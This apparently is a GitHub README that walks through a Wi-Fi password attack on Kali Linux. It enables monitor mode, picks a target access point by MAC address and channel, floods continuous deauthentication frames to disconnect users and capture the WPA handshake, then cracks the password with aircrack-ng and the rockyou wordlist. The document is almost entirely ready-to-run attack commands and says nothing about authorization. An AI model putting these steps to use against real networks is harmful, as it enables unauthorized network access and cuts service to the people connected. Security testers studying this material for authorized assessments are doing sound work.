 # Network Monitoring

## Overview
This document provides a step-by-step guide for using various network monitoring and penetration testing commands on Kali Linux. Follow these instructions to check your Kali Linux version, verify network interfaces, manage processes, enable monitor mode, and perform deauthentication attacks using tools like `airmon-ng`, `airodump-ng`, `aireplay-ng`, `wireshark`, and `aircrack-ng`.

## Instructions

### Check Kali Linux Version
To determine which version of Kali Linux you are using, execute the following commands:
```sh
cat /etc/os-release
uname -a
```

### Check Internet Connection and Network Interfaces

Use the following commands to check the status of your network interfaces:

```
iwconfig   
ifconfig
ip addr
```


### Kill Conflicting Processes

Before starting monitor mode, kill any processes that might interfere:

```sh

sudo airmon-ng check kill
```
### Start Monitor Mode

Enable monitor mode on your wireless interface (e.g., wlan0):

```sh

sudo airmon-ng start wlan0
```
### Verify Monitor Mode

Confirm that monitor mode is enabled using:

```sh

sudo airmon-ng
# or
iwconfig
```

### Capture AP's MAC Address and Channel

Use airodump-ng to identify the Access Point (AP) you want to target:

```sh

sudo airodump-ng wlan0mon
```

Note down the AP's MAC address and channel. For example:

    AP-MAC: 90:9A:4A:B8:F3:FB
    Channel: 2

### Start Packet Capture

Open a new terminal window and start capturing packets:

```sh

sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon
```
### Perform Deauthentication Attack

In another terminal window, execute the deauthentication attack:

```sh

sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```
### Analyze Captured Packets

Open the captured packets file in Wireshark:

```sh

wireshark hack1-01.cap
```
Filter by eapol to find the handshake packets.
### Stop Monitor Mode

After completing the capture, stop monitor mode:

```sh

sudo airmon-ng stop wlan0mon
```
### Crack the Password

Use aircrack-ng to crack the password from the captured handshake:

```sh

aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
### Display Specific AP

To focus on a specific AP, use the following command:

```sh

sudo airodump-ng wlan0mon -d 90:9A:4A:B8:F3:FB
```
### Deauthenticate User

To deauthenticate a user and stop their service, use:

```sh

sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon
```
### Change Network Mode

Switch from 'Monitor' mode back to 'Managed Access Point' mode:

```sh

sudo airmon-ng stop wlan0mon
```

### Final Password Crack Attempt

Perform the final password crack attempt:

```sh

aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
